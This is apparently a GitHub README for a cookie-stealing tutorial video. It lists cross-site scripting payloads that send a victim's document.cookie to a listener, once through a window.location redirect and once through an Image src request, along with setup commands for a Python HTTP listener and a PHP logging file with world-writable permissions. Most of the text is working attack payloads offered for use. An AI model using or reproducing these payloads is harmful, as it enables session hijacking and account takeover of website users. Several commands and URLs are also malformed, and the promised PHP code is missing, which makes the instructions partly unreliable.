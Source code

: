 # Stealling_Cookies
in This file you will find every thing you need to Steal the cookies

All Payload that used in the Youtube Video:

https://youtu.be/Kh1sgI5yLdk


Payloads:

# Takeing The Cookie From Python3 Server Listener:

1- Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2- write Payload with window.location() function:

<script> window.location='https://127.0.0.1/:3333?cookie='+document.cookie </script> 


# Send Cookies with out go another Window :

1- Strat Python Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2- write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie:

1- go to html File:

[~] YasserREED> cd  /var/www/html

2- make File get.php:

YasserrEED> sudo gedit get.php

// Code with the File Just Copy it 

2- make log.txt

YasserrEED> sudo touch log.txt

3- give all Privileges:

YasserREED> sudo chmod 777 log.txt


